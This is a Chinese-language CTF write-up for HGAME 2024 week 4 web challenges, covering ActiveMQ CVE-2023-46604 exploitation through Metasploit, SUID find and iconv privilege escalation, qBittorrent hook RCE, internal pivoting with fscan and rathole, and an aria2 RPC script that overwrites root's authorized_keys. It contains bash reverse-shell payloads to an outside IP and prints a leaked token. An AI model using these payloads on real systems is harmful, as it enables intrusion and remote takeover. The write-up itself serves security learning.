

原地址为<https://vidar-team.feishu.cn/docx/ERcndA41voRtScxGiJ4cd55fn6e>。

---

* **URL**: <https://hgame.vidar.club/>
* **Username**: csmantle (Individual participation)
* **Start Time**: 2024-02-21 20:00:00
* **End Time**: 2024-02-28 20:00:00
* **Status:** -2 Web; -1 Pwn; -2 Crypto

---

- [Web](#web)
  - [Reverse and Escalation](#reverse-and-escalation)
  - [Whose Home?](#whose-home)
  - [火箭大头兵](#火箭大头兵)
- [Reverse](#reverse)
  - [again!](#again)
  - [change](#change)
  - [crackme2](#crackme2)
- [Misc](#misc)
  - [maybezip](#maybezip)
  - [ezKeyboard](#ezkeyboard)
- [IOT](#iot)
  - [ez7621](#ez7621)

---

## Web

### Reverse and Escalation

> The container takes time to start, please be patient.

CVE-2023-46604 RCE，Linux 5.10 提权。

<https://github.com/rootsecdev/CVE-2023-46604>

<https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/apache_activemq_rce_cve_2023_46604.rb>

~~shell 一直死。~~Stageless HTTP Meterpreter 可以，但是很慢。（裸 bash reverse shell 也可以，是更好的选择，因为不需要很多复杂的功能，也不是 Windows 平台。）

```plain-text
meterpreter > sysinfo
Computer     : 172.21.36.45
OS           : Debian 11.4 (Linux 5.10.134-15.1.2.lifsea8.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > ps

Process List
============

 PID  PPID  Name         Arch    User      Path
 ---  ----  ----         ----    ----      ----
 1    0     sudo         x86_64  root
 7    1     sh           x86_64  activemq  /bin/dash
 38   7     java         x86_64  activemq  /usr/local/openjdk-11/bin/java
 117  1     [aARnQjrHA]  x86_64  activemq
 131  1     ekpxNjrt     x86_64  activemq  /tmp/ekpxNjrt
 138  131   sh           x86_64  activemq  /bin/dash
 139  131   sh           x86_64  activemq  /bin/dash
 143  131   sh           x86_64  activemq  /bin/dash

meterpreter >
```

不能使用 dirtypipez，build 号太高。

```plain-text
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/bin/umount
/bin/su
/bin/mount
```

find 有 SUID，可提权。

```plain-text
/usr/bin/find . -exec /bin/sh -p \; -quit
id
uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)
cat /flag
hgame{ea6213017f2172917866d7f75a987b7cce391762}
```

`hgame{ea6213017f2172917866d7f75a987b7cce391762}`

> 请先完成前置题目[Reverse and Escalation.]

继续使用同一个 CVE 获得普通用户的 shell。

```plain-text
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   139.224.232.162  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basic
                                       s/using-metasploit.html
   RPORT    31380            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  11001            yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (generic/custom):

   Name         Current Setting                                         Required  Description
   ----         ---------------                                         --------  -----------
   PAYLOADFILE                                                          no        The file to read the payload from
   PAYLOADSTR   bash -c "bash -i >& /dev/tcp/116.62.135.53/11000 0>&1"  no        The string to use as a payload


Exploit target:

   Id  Name
   --  ----
   1   Linux


View the full module info with the info, or info -d command.

msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] 139.224.232.162:31380 - Running automatic check ("set AutoCheck false" to disable)
[+] 139.224.232.162:31380 - The target appears to be vulnerable. Apache ActiveMQ 5.17.3
[*] 139.224.232.162:31380 - Using URL: http://116.62.135.53:11001/WXd1yP
[*] 139.224.232.162:31380 - Sleeping for 2 seconds before attempting again
[*] 139.224.232.162:31380 - Sent ClassPathXmlApplicationContext configuration file.
[*] 139.224.232.162:31380 - Sent ClassPathXmlApplicationContext configuration file.
[*] 139.224.232.162:31380 - Sleeping for 4 seconds before attempting again
[*] 139.224.232.162:31380 - Sleeping for 8 seconds before attempting again
[*] 139.224.232.162:31380 - Final attempt. Sleeping for the remaining 16 seconds out of total timeout 30
[*] 139.224.232.162:31380 - Server stopped.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) >
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4\rev_n_esc> ncat -lvp 11000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::11000
Ncat: Listening on 0.0.0.0:11000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:51323.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$
```

准备提权。看到个很有趣的 find。

```plain-text
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$ find /
find /
14654 + 12698 =
wrong answer!
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$
```

Base64 编码，拉到本地分析。

```plain-text
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$ base64 /usr/bin/find > /tmp/find.b64.txt
</activemq$ base64 /usr/bin/find > /tmp/find.b64.txt
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$ cat /tmp/find.b64.txt
cat /tmp/find.b64.txt
f0VMRgIBAQAAAAAAAAAAAAMAPgA...
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/opt/activemq$
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int seed; // eax
  unsigned int xi; // eax
  unsigned int b; // [rsp+20h] [rbp-10h]
  unsigned int a; // [rsp+24h] [rbp-Ch]
  int i; // [rsp+28h] [rbp-8h]
  int count; // [rsp+2Ch] [rbp-4h]

  seed = time(0LL);
  srand(seed);
  count = 0;
  for ( i = 1; i < argc; ++i )
  {
    a = rand() % 23333;
    b = rand() % 23333;
    printf("%d + %d = \n", a, b);
    if ( a + b != atoi(argv[i]) )
    {
      puts("wrong answer!");
      return 1;
    }
    xi = atoi(argv[i]);
    printf("%d correct!\n", xi);
    if ( ++count > 38 )
    {
      setuid(0);
      system("ls");
      return 0;
    }
  }
  return 0;
}
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc$ checksec ./find.elf
[*] '/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc/find.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc$
```

以当前时间为种子生成 38 个二元随机数对，判断 argv 中的每一项是否等于每个数对中分量的和，全部正确则以 SUID 权限运行 `ls`。

~~尝试 hook 掉~~~~rand~~~~。~~ 失败，ld 对 setuid 程序禁用了 `LD_PRELOAD`。

尝试暴力。

```c
// gen.c

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

static const int64_t seed = 1708837450LL;  // TODO: Change this

int main(void) {
    srand((unsigned)seed);
    for (int i = 0; i < 45; i++) {
        int a = rand() % 23333;
        int b = rand() % 23333;
        printf("%d ", a + b);
    }
    putchar('\n');
    return 0;
}
```

```c
// print_time.c

#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <stdint.h>

int main(void) {
    printf("%jd\n", (intmax_t)time(NULL));
    return 0;
}
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc$ gcc -Wall -Wextra -Wpedantic -static -Os -o gen ./gen.c
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc$ gcc -Wall -Wextra -Wpedantic -static -Os -o
print_time ./print_time.c
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/rev_n_esc$
```

将二进制上传至/tmp，并在/tmp 下构造伪造的 ls 文件，加入 PATH。

先使用 gen 生成预测的伪随机数序列，再在恰当的时间点运行 find 就可以 getshell。

```plain-text
activemq@gamebox-41-158-cdd8b3e1f3d86b75:/tmp$ find 17372 33662 17990 31413 39708 24197 11001 10875 41494 18644 4684 37435 39099 22267 16938 20329 16998 32722 14120 34305 39038 27516 37763 34862 31636 25152 33417 31129 7754 30912 35154 28362 19914 9837 39901 33889 33000 20328 6820 10375 31390 28465 5137 28674 28027
<33000 20328 6820 10375 31390 28465 5137 28674 28027
find 17372 33662 17990 31413 39708 24197 11001 10875 41494 18644 4684 37435 39099 22267 16938 20329 16998 32722 14120 34305 39038 27516 37763 34862 31636 25152 33417 31129 7754 30912 35154 28362 19914 9837 39901 33889 33000 20328 6820 10375 31390 28465 5137 28674 28027
id
uid=0(root) gid=1000(activemq) groups=1000(activemq)
cat /flag
hgame{89e12dc0a019805ee3c7d4a7c236a153643d62d8}
```

`hgame{89e12dc0a019805ee3c7d4a7c236a153643d62d8}`

### Whose Home?

> “这是谁的家？” “好像是个路由佬。”
> 这是一个以个人/家庭为背景的入门级渗透靶场，里面没有坑也没有什么难题，希望大家玩的开心。
> 一共有 2 个 flag。
> **Hint：**
>
> 1. 所有靶机都出网
> 2. qb 后台能 rce，这是 qb 功能的一部分，翻 CVE 是翻不到的
> 3. 跳板机上 172 开头网段的那张网卡是出网用的，扫那个段没用

qbittorrent，creds：admin/adminadmin。


设置在加入 torrent 时运行 hook 程序：

```bash
bash -c "bash -i >& /dev/tcp/116.62.135.53/11000 0>&1"
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4\home> ncat -lvp 11000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::11000
Ncat: Listening on 0.0.0.0:11000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:7655.
bash: cannot set terminal process group (431): Not a tty
bash: no job control in this shell
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ id
id
uid=911(abc) gid=911(abc) groups=911(abc),1000(users)
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ uname -a
uname -a
Linux gamebox-41-160-9338674d02250bd1-qbittorrent 5.10.134-16.1.al8.x86_64 #1 SMP Thu Dec 7 14:11:24 UTC 2023 x86_64 GNU/Linux
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ ll /
ll /
total 148
drwxr-xr-x   1 root root  4096 Feb 25 00:41 .
drwxr-xr-x   1 root root  4096 Feb 25 00:41 ..
drwxr-xr-x   1 abc  abc   4096 Oct 21 13:28 app
drwxr-xr-x   1 root root  4096 Oct 21 13:28 bin
drwxr-xr-x   2 root root 12288 Oct 21 13:28 command
drwxr-xr-x   1 abc  abc   4096 Feb 25 02:03 config
drwxr-xr-x   1 abc  abc   4096 Oct 22 06:52 defaults
drwxr-xr-x   5 root root   360 Feb 25 00:41 dev
-rwxr--r--   1 root root 18909 Jan  1  1970 docker-mods
drwxr-xr-x   1 root root  4096 Feb 25 00:41 etc
-r--------   1 root root    48 Feb 25 00:41 flag
drwxr-xr-x   2 root root  4096 Oct 21 13:28 home
-rwxr-xr-x   1 root root   907 May  4  2023 init
drwxr-xr-x   1 root root  4096 Oct 22 06:53 lib
drwxr-xr-x   2 root root  4096 Oct 21 13:28 lsiopy
drwxr-xr-x   5 root root  4096 Oct 21 13:28 media
drwxr-xr-x   2 root root  4096 Oct 21 13:28 mnt
drwxr-xr-x   2 root root  4096 Oct 21 13:28 opt
drwxr-xr-x   6 root root  4096 Oct 21 13:28 package
dr-xr-xr-x 382 root root     0 Feb 25 00:41 proc
drwxr-xr-x   2 root root 12288 Oct 22 06:53 qbt
drwx------   2 root root  4096 Oct 21 13:28 root
drwxr-xr-x   1 root root  4096 Feb 25 00:41 run
drwxr-xr-x   1 root root  4096 Oct 21 13:28 sbin
drwxr-xr-x   2 root root  4096 Oct 21 13:28 srv
dr-xr-xr-x  13 root root     0 Feb 25 00:41 sys
drwxrwxrwt   1 root root  4096 Feb 25 01:36 tmp
drwxr-xr-x   1 root root  4096 Oct 22 06:52 usr
drwxr-xr-x   1 root root  4096 Oct 21 13:28 var
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ find / -perm -u=s -type f 2>/dev/null | xargs ls -l
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
-rwsr-xr-x 1 root root 37968 May  4  2023 /package/admin/s6-overlay-helpers-0.1.0.1/command/s6-overlay-suexec
-rwsr-xr-x 1 root root 84648 Oct  6 05:45 /usr/bin/chage
-rwsr-xr-x 1 root root 45936 Oct  6 05:45 /usr/bin/chfn
-rwsr-xr-x 1 root root 36176 Oct  6 05:45 /usr/bin/chsh
-rwsr-xr-x 1 root root 26824 Oct  6 05:45 /usr/bin/expiry
-rwsr-xr-x 1 root root 63584 Oct  6 05:45 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 24528 Oct  6 09:25 /usr/bin/iconv
-rwsr-xr-x 1 root root 88936 Oct  6 05:45 /usr/bin/passwd
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$
```

有一个带 SUID 的 iconv。

```bash
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ iconv -f ascii -t ascii /flag
iconv -f ascii -t ascii /flag
hgame{c1f1e3d66e62aa4db792300bd4655e6e552f253c}
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$
```

**Flag 1:** `hgame{c1f1e3d66e62aa4db792300bd4655e6e552f253c}`

然后进行后渗透。

```plain-text
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3E:14:9E:33
          inet addr:172.21.36.128  Bcast:172.21.39.255  Mask:255.255.252.0
          inet6 addr: fe80::16:3e00:1f14:9e33/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:10764 errors:0 dropped:0 overruns:0 frame:0
          TX packets:11362 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:21061379 (20.0 MiB)  TX bytes:1206005 (1.1 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:63 errors:0 dropped:0 overruns:0 frame:0
          TX packets:63 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9132 (8.9 KiB)  TX bytes:9132 (8.9 KiB)

net1      Link encap:Ethernet  HWaddr CA:24:8E:ED:FB:7B
          inet addr:100.64.43.3  Bcast:100.64.43.255  Mask:255.255.255.0
          inet6 addr: fe80::c824:8eff:feed:fb7b/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:24830 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16682 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:4447287 (4.2 MiB)  TX bytes:4300658 (4.1 MiB)

gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$
```

```plain-text
gamebox-41-160-9338674d02250bd1-qbittorrent:/run/s6-rc:s6-rc-init:LFGbJP/servicedirs/svc-qbittorrent$ /tmp/fscan -nopoc -np -debug 5 -h 100.64.43.3/24
/tmp/fscan -nopoc -np -debug 5 -h 100.64.43.3/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
100.64.43.2:80 open
Open result.txt error, open result.txt: permission denied
100.64.43.4:22 open
Open result.txt error, open result.txt: permission denied
100.64.43.3:8080 open
Open result.txt error, open result.txt: permission denied
[*] alive ports len is: 3
```

将端口穿透出来。

```plain-text
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ ./fscan -nopoc -np -nobr -no -debug 5 -p 1-10000 -h 100.64.43.4
./fscan -nopoc -np -nobr -no -debug 5 -p 1-10000 -h 100.64.43.4

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
100.64.43.4:22 open
100.64.43.4:6800 open
[*] alive ports len is: 2
start vulscan
宸插畬鎴?2/2
[*] 鎵弿缁撴潫,鑰楁椂: 1.902790108s
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ curl -o rathole.zip https://hub.gitmirror.com/https://github.com/rapiz1/rathole/releases/download/v0.4.8/rathole-x86_64-unknown-linux-musl.zip
curl -o rathole.zip https://hub.gitmirror.com/https://github.com/rapiz1/rathole/releases/download/v0.4.8/rathole-x86_64-unknown-linux-musl.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1948k  100 1948k    0     0   471k      0  0:00:04  0:00:04 --:--:--  471k
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ unzip rathole.zip
unzip rathole.zip
Archive:  rathole.zip
  inflating: rathole
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ dir
dir
client_rev.toml  fscan  rathole  rathole.zip
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ ll
ll
total 10036
drwxrwxrwt 1 root root    4096 Feb 26 13:22 .
drwxr-xr-x 1 root root    4096 Feb 26 13:05 ..
-rw-r--r-- 1 abc  abc      471 Feb 26 13:19 client_rev.toml
-rwxr-xr-x 1 abc  abc  6266348 Feb 26 13:09 fscan
-rwxr-xr-x 1 abc  abc  1995508 Feb 26 13:22 rathole
-rw-r--r-- 1 abc  abc  1994775 Feb 26 13:22 rathole.zip
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ ./rathole --version
./rathole --version
rathole
Build Timestamp:     2023-05-26T08:34:50.264730951Z
Build Version:       0.4.8
Commit SHA:          Some("9727e15377d9430cd2d3b97f2292037048610209")
Commit Date:         Some("2023-05-26T08:29:56Z")
Commit Branch:       Some("detached HEAD")
cargo Target Triple: x86_64-unknown-linux-musl
cargo Profile:       release
cargo Features:      base64,client,default,hot_reload,noise,notify,server,snowstorm,tls,tokio_native_tls

gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ ./rathole client_rev.toml &
./rathole client_rev.toml &
[1] 270
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$ j2024-02-26T13:23:07.375939Z  INFO config_watcher{path="client_rev.toml"}: rathole::config_watcher: Start watching the config
2024-02-26T13:23:07.375984Z  INFO handle{service=p11003}: rathole::client: Starting 8986503eb70950a601f3b6d0a2c8edca70767366905c43611812d3c0cac24439
2024-02-26T13:23:07.429740Z  INFO handle{service=p11003}:run: rathole::client: Control channel established
obs
jobs
[1]+  Running                 ./rathole client_rev.toml &
gamebox-41-160-3cb4a9729f9976bc-qbittorrent:/tmp$
```

```plain-text
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_4\home> nmap -vvv -Pn -sS -sV -p 11003 116.62.135.53
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 21:24 ?D1ú±ê×?ê±??
...
Nmap scan report for 116.62.135.53
Host is up, received user-set (0.010s latency).
Scanned at 2024-02-26 21:24:05 ?D1ú±ê×?ê±?? for 6s

PORT      STATE SERVICE REASON         VERSION
11003/tcp open  http    syn-ack ttl 52 aria2 downloader JSON-RPC

Read data files from: D:\Program Files (x86)\Nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_4\home>
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/home/interact.py 
{"id":null,"jsonrpc":"2.0","result":["aria2.addUri","aria2.addTorrent","aria2.getPeers","aria2.addMetalink","aria2.remove","aria2.pause","aria2.forcePause","aria2.pauseAll","aria2.forcePauseAll","aria2.unpause","aria2.unpauseAll","aria2.forceRemove","aria2.changePosition","aria2.tellStatus","aria2.getUris","aria2.getFiles","aria2.getServers","aria2.tellActive","aria2.tellWaiting","aria2.tellStopped","aria2.getOption","aria2.changeUri","aria2.changeOption","aria2.getGlobalOption","aria2.changeGlobalOption","aria2.purgeDownloadResult","aria2.removeDownloadResult","aria2.getVersion","aria2.getSessionInfo","aria2.shutdown","aria2.forceShutdown","aria2.getGlobalStat","aria2.saveSession","system.multicall","system.listMethods","system.listNotifications"]}
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/home/interact.py 
{"id":null,"jsonrpc":"2.0","result":["aria2.onDownloadStart","aria2.onDownloadPause","aria2.onDownloadStop","aria2.onDownloadComplete","aria2.onDownloadError","aria2.onBtDownloadComplete"]}
```

从 QB 中寻找 secret token：


```json
{
  ...
  "mail_notification_username": "hgame",
  "mail_notification_password": "Sh3hoVRqMQJAw9D",
  ...
}
```

找到正确的 token。

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/home/interact.py
{"id":null,"jsonrpc":"2.0","result":{"enabledFeatures":["Async DNS","BitTorrent","Firefox3 Cookie","GZip","HTTPS","Message Digest","Metalink","XML-RPC","SFTP"],"version":"1.36.0"}}
PS D:\Workspace\rev\hgame_2024\week_4>
```

从配置文件中可以看到用户为 root，由于开了 ssh 服务，所以覆盖 `/root/.ssh/authorized_keys` 为我们的公钥就可以直接 getshell。

```python
import requests as req
from pwn import *

PKEY = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDbddXZW+vgiRzQBEh3DeGWaeb2hY1L9tCNckLmPvvyE root@localhost"

resp = req.post(
    "http://116.62.135.53:11003/jsonrpc",
    json={
        "jsonrpc": "2.0",
        "id": None,
        "method": "aria2.changeGlobalOption",
        "params": [
            "token:Sh3hoVRqMQJAw9D",
            {
                "allow-overwrite": "true",
            },
        ],
    },
)
info(resp.text)

resp = req.post(
    "http://116.62.135.53:11003/jsonrpc",
    json={
        "jsonrpc": "2.0",
        "id": None,
        "method": "aria2.getGlobalOption",
        "params": [
            "token:Sh3hoVRqMQJAw9D",
        ],
    },
)
info(resp.text)

resp = req.post(
    "http://116.62.135.53:11003/jsonrpc",
    json={
        "jsonrpc": "2.0",
        "id": None,
        "method": "aria2.addUri",
        "params": [
            "token:Sh3hoVRqMQJAw9D",
            ["http://fwd.csmantle.top:11002/pubkey.txt"],
            {"out": "authorized_keys", "dir": "/root/.ssh/"},
        ],
    },
)
info(resp.text)

resp = req.post(
    "http://116.62.135.53:11003/jsonrpc",
    json={
        "jsonrpc": "2.0",
        "id": None,
        "method": "aria2.getGlobalStat",
        "params": [
            "token:Sh3hoVRqMQJAw9D",
        ],
    },
)
info(resp.text)

resp = req.post(
    "http://116.62.135.53:11003/jsonrpc",
    json={
        "jsonrpc": "2.0",
        "id": None,
        "method": "aria2.tellStatus",
        "params": ["token:Sh3hoVRqMQJAw9D", "9cedf246594fa158"],
    },
)
info(resp.text)
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/home/interact.py
[*] {"id":null,"jsonrpc":"2.0","result":"OK"}
[*] {"id":null,"jsonrpc":"2.0","result":{...}}
[*] {"id":null,"jsonrpc":"2.0","result":"91fd4506560cd37e"}
[*] {"id":null,"jsonrpc":"2.0","result":{"downloadSpeed":"0","numActive":"0","numStopped":"4","numStoppedTotal":"4","numWaiting":"0","uploadSpeed":"0"}}
[*] {"id":null,"jsonrpc":"2.0","result":{"bitfield":"80","completedLength":"102","connections":"0","dir":"\/root\/.ssh\/","downloadSpeed":"0","errorCode":"0","errorMessage":"","files":[{"completedLength":"102","index":"1","length":"102","path":"\/root\/.ssh\/\/authorized_keys","selected":"true","uris":[{"status":"used","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"},{"status":"waiting","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"},{"status":"waiting","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"},{"status":"waiting","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"},{"status":"waiting","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"},{"status":"waiting","uri":"http:\/\/fwd.csmantle.top:11002\/pubkey.txt"}]}],"gid":"9cedf246594fa158","numPieces":"1","pieceLength":"1048576","status":"complete","totalLength":"102","uploadLength":"0","uploadSpeed":"0"}}
PS D:\Workspace\rev\hgame_2024\week_4>
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4\home> ssh -p 11004 root@fwd.csmantle.top
Welcome to Ubuntu Jammy Jellyfish (development branch) (GNU/Linux 5.10.134-16.1.al8.x86_64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Feb 26 14:33:23 2024 from 100.64.43.3
root@gamebox-41-160-3cb4a9729f9976bc-aria2:~# cat /flag
hgame{a9534e6422f221b91086f95080331e7077dc63fc}
root@gamebox-41-160-3cb4a9729f9976bc-aria2:~# exit
logout
Connection to fwd.csmantle.top closed.
PS D:\Workspace\rev\hgame_2024\week_4\home>
```

`hgame{a9534e6422f221b91086f95080331e7077dc63fc}`

### 火箭大头兵

> 火箭大头兵 Liki4 去太空执行任务了，看看她临走前留下了什么？

Rust 代码审计，字典值污染，JWT forgery。

题目希望我们切换到用户 `Liki4` 并查看私密留言。


观察关键代码片段：

```rust
fn init_ctx() -> Map<String, Value> {
    let mut <u>context</u> = Map::new();
    <u>context</u>.<u>insert</u>(
        String::from("_locale"),
        Value::String(String::from("zh_CN")),
    );
    <u>context</u>.<u>insert</u>(
        String::from("_title"),
        Value::String(String::from("留言板")),
    );
    <u>context</u>.<u>insert</u>(String::from("_system_jwt_key"), Value::String(randstr(32)));
    <u>context</u>
}

#[launch]
fn rocket() -> Rocket<Build> {
    rocket::build()
        .manage(EnvState {
            env_map: Arc::new(Env::new()),
        })
        .manage(DbState {
            db: Arc::new(Db::new()),
        })
        .manage(CtxState {
            ctx: Mutex::new(init_ctx()),
        })
        .attach(Template::fairing())
        .register("/", catchers![unauthorized, bad_request])
        .mount(
            "/",
            routes![
                ...
            ],
        )
}
```

假使我们能够覆写_system_jwt_key 为指定的值，我们就可以伪造 cookies 以切换至任意用户身份。

```rust
#[get("/profile")]
pub fn profile_page(
    user_from_jwt: UserJwtClaim,
    ctx_state: &State<CtxState>,
    db_state: &State<DbState>,
) -> Template {
    use ...;

    let <u>connection</u> = ...;

    let user_id = ...;
    let bio: HashMap<String, Value> = ...;
    let mut <u>ctx</u> = ctx_state.ctx.lock().unwrap();
    for (key, value) in bio {
        <u>ctx</u>.<u>insert</u>(format!("{}_{}", &user_from_jwt.username, key), value);
    }

    <u>ctx</u>.<u>insert</u>(
        "_current_user".to_string(),
        Value::String(user_from_jwt.username),
    );
    let c = <u>ctx</u>.clone();
    <u>ctx</u>.<u>insert</u>("ctx".to_string(), Value::Object(c));
    Template::render("profile", &*<u>ctx</u>)
}
```

